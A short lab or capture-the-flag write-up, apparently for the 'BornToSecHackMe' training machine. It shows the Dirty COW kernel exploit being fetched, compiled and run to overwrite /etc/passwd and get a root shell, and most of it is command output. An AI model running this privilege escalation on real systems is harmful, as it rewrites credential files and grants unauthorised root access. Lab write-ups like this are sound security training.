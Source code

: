 # Dirty Cow exploit

see https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

After login with one of the users that we got in the first writeup, we can run the dirty cow exploit.

A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.

After wegot the source code of the exploit from https://github.com/FireFart/dirtycow/blob/master/dirty.c :

```bash
laurie@BornToSecHackMe:~$ vi dirty.c
laurie@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
laurie@BornToSecHackMe:~$ ./dirty root
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: root
Complete line:
root:roK20XGbWEsSM:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'root'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'root'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
laurie@BornToSecHackMe:~$ su root
Password:
root@BornToSecHackMe:/home/laurie# cd
root@BornToSecHackMe:~# ls
README
root@BornToSecHackMe:~# pwd
/root
root@BornToSecHackMe:~# cat README
CONGRATULATIONS !!!!
To be continued...
```
